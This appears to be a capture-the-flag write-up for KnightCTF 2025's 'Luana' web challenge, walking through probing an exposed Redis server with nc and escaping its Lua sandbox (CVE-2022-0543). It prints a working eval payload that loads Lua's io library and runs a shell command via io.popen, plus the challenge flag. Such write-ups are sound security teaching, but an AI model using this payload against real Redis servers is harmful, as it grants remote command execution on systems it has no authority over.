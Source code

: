 ```yaml
---
title: "Luana"
description: "Show me your skills. Read the /flag.txt"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#luana)

We are given a webserver that notifies the service has started on port `6379`, looking into that port it is **Redis**. I'd heard of it before but never really used it. We are also told the flag is stored at `/flag.txt`.

> Redis is a source-available, in-memory storage, used as a distributed, in-memory key–value database, cache and message broker, with optional durability.

I start with some basic commands such as `set` and `get` through `nc`

```
$ nc server 6379
> set 0 1
> get 0
1
```

Looking into Redis on [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html) I notice that it mentions a LUA Sandbox Escape that's usually patched.

Thinking of the title of the challenge **Lua**na I think I know where to look.

Looking at recent CVE's in Redis I find one that's a [Lua sandbox escape from 2022](https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis) and make a payload according to the blog.

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Flag: `KCTF{c0n6r475_b015_n1c3_c47ch}`
